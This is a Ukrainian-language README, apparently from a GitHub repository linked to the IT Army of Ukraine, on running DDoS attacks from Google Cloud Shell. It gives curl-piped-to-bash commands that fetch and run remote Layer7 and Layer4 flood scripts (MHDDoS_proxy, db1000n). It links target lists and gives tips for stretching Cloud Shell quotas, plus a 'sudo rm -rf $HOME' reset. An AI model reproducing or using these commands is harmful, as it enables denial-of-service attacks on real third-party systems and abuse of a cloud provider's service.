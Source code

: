 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**Layer4:**    
~~`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash`~~    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
**All list (*--itarmy*):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
~~**Розділений термінал (Layer7+Layer4):**~~    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
